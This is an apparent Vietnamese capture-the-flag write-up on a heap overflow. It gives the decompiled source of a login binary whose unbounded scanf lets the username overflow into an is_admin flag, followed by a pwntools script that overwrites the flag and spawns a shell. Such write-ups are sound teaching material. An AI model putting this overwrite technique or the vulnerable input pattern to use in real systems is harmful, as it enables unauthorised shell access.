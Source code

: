 # Heap overflow 1

dee tiếp tục với seri học heap nào

**Lỗi đầu tiên cơ bản là về tràn bộ nhớ heap (Heap overflow ).** Khi ta có lỗi tràn bộ nhớ heap, ta có thể thay đổi các giá trị của các biến khác nằm bên dưới vùng mà ta có thể ghi đè để làm thay đổi cách chương trình hoạt động. Từ đó ta có thể khai thác và khiến chương trình chạy theo mong muốn.

## ida

```c 
ssize_t init()
{
  int fd; // [rsp+Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  fd = open("/dev/urandom", 0, 0LL);
  if ( fd < 0 )
    die("Failed to open urandom");
  username_check = malloc(0x200uLL);
  password_check = malloc(0x200uLL);
  username_input = malloc(0x200uLL);
  password_input = malloc(0x200uLL);
  is_admin = (__int64)malloc(0x10uLL);
  read(fd, username_check, 0x200uLL);
  return read(fd, password_check, 0x200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  puts("******************************************");
  puts("*    Unauthorize access is forbidden!    *");
  puts("******************************************\n");
  printf("Username: ");
  __isoc99_scanf("%s", username_input);
  printf("Password: ");
  __isoc99_scanf("%s", password_input);
  if ( !memcmp(username_input, username_check, 0x200uLL) && !memcmp(password_input, password_check, 0x200uLL) )
    *(_DWORD *)is_admin = 1;
  if ( *(_DWORD *)is_admin == 1 )
  {
    puts("Access granted!");
    system("/bin/sh");
  }
  else
  {
    puts("Access forbidden!");
  }
  return 0;
}
```

đây là chall liên quan đến heap vì các giá trị khởi tạo và nhập vào trong địa chỉ heap

**2 biến username_input và password_input khởi tạo 0x200 byte nhưng mà cho phép ta nhập ko giới hạn số byte => lỗi heap overflow tại đây**

**username_check** và **password_check** thì khởi tạo random, ta không xác định được

## Khai thác

```c 
if ( !memcmp(username_input, username_check, 0x200uLL) && !memcmp(password_input, password_check, 0x200uLL) )
    *(_DWORD *)is_admin = 1;
  if ( *(_DWORD *)is_admin == 1 )
  {
    puts("Access granted!");
    system("/bin/sh");
  }
  else
  {
    puts("Access forbidden!");
  }
```

ở đây có ta đoán 2 có cách có thể lấy được shell

- **cách 1:**

đơn giản là ta làm **nhập cho username_input và password_input giống username_check và password_check là được**

vấn đề ở đây là username_check và password_check thì khởi tạo random, ta không xác định được, **nên ở thực thi cách này là ko khả thi** 

- **cách 2: Sử dụng kĩ thuật Heap Overflow**

ở đây ta hoàn toàn có thể Sử dụng **kĩ thuật Heap Overflow để thay đổi biến is_admin == 1** 

![image](https://github.com/gookoosss/CTF/assets/128712571/688d1890-5a81-4dbc-8770-3f31661560d7)


ta tính *offset từ username_input đến is_admin là 0x420*, sau đó ta sẽ **ghi đè cho is_admin bằng p64(0x1)**

còn password_input thì ta nhập đại thôi

cuối cùng thì ta lấy được shell

![image](https://github.com/gookoosss/CTF/assets/128712571/03d9750f-7ae4-441d-a1b7-86d167038360)


# script

```python 
from pwn import *

p = process('./hof1')

gdb.attach(p, gdbscript = '''
b*main+93
b*main+137
c
''')

input()

payload = b'a'*0x420 + p64(0x1)

p.sendlineafter(b'Username: ', payload)
p.sendlineafter(b'Password: ', b'a'*8)

p.interactive()
```


